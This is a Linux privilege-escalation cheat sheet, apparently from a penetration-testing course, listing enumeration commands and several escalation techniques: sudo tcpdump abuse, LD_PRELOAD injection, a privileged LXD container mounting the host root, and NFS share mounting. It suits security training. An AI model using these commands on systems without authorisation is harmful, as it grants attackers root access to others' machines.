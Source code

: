 # 23. Linux Privilege Escalation

## Cheat Sheet

The cheat sheet is a useful command reference for this module.

| **Command**                                                                         | **Description**                                       |
| ----------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `ps aux \| grep root`                                                               | See processes running as root                         |
| `ps au`                                                                             | See logged in users                                   |
| `ls /home`                                                                          | View user home directories                            |
| `ls -l ~/.ssh`                                                                      | Check for SSH keys for current user                   |
| `history`                                                                           | Check the current user's Bash history                 |
| `sudo -l`                                                                           | Can the user run anything as another user?            |
| `ls -la /etc/cron.daily`                                                            | Check for daily Cron jobs                             |
| `lsblk`                                                                             | Check for unmounted file systems/drives               |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`                       | Find world-writeable directories                      |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`                       | Find world-writeable files                            |
| `uname -a`                                                                          | Check the Kernel versiion                             |
| `cat /etc/lsb-release`                                                              | Check the OS version                                  |
| `gcc kernel_expoit.c -o kernel_expoit`                                              | Compile an exploit written in C                       |
| `screen -v`                                                                         | Check the installed version of `Screen`               |
| `./pspy64 -pf -i 1000`                                                              | View running processes with `pspy`                    |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SUID bit set                   |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SETGID bit set                 |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump`                               |
| `echo $PATH`                                                                        | Check the current user's PATH variable contents       |
| `PATH=.:${PATH}`                                                                    | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`                   | Search for config files                               |
| `ldd /bin/ls`                                                                       | View the shared objects required by a binary          |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`                            | Escalate privileges using `LD_PRELOAD`                |
| `readelf -d payroll \| grep PATH`                                                   | Check the RUNPATH of a binary                         |
| `gcc src.c -fPIC -shared -o /development/libshared.so`                              | Compiled a shared libary                              |
| `lxd init`                                                                          | Start the LXD initialization process                  |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`                  | Import a local image                                  |
| `lxc init alpine r00t -c security.privileged=true`                                  | Start a privileged LXD container                      |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`      | Mount the host file system in a container             |
| `lxc start r00t`                                                                    | Start the container                                   |
| `showmount -e 10.129.2.12`                                                          | Show the NFS export list                              |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                                           | Mount an NFS share locally                            |